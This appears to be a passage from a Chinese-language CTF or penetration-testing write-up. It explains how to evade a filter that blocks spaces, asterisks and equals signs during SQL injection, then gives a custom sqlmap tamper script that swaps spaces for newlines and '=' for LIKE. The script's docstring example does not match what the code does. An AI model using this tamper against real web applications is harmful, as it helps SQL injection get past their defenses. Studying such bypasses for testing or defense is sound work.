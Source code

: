 过滤了空格、*、和等号，前两个可以通过%0a绕过，等号可以通过like绕过，sqlmap中没有一个脚本同时可以满足这两个要求（使用多个除外），这里选择自己写个脚本，用来绕过：space20a.py
```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2021 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

from lib.core.compat import xrange
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Replaces space character (' ') with comments 'chr(0x0a)'

    Tested against:
        * Microsoft SQL Server 2005
        * MySQL 4, 5.0 and 5.5
        * Oracle 10g
        * PostgreSQL 8.3, 8.4, 9.0

    Notes:
        * Useful to bypass weak and bespoke web application firewalls

    >>> tamper('SELECT id FROM users')
    'SELECT/**/id/**/FROM/**/users'
    """

    retVal = payload

    if payload:
        retVal = ""
        quote, doublequote, firstspace = False, False, False

        for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += chr(0x0a)
                    continue
            
            elif payload[i] == "=":
                retVal += chr(0x0a)+"LIKE"+chr(0x0a)
                continue
                
            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote     

            elif payload[i] == " " and not doublequote and not quote:
                retVal += chr(0x0a)
                continue

            retVal += payload[i]

    return retVal
```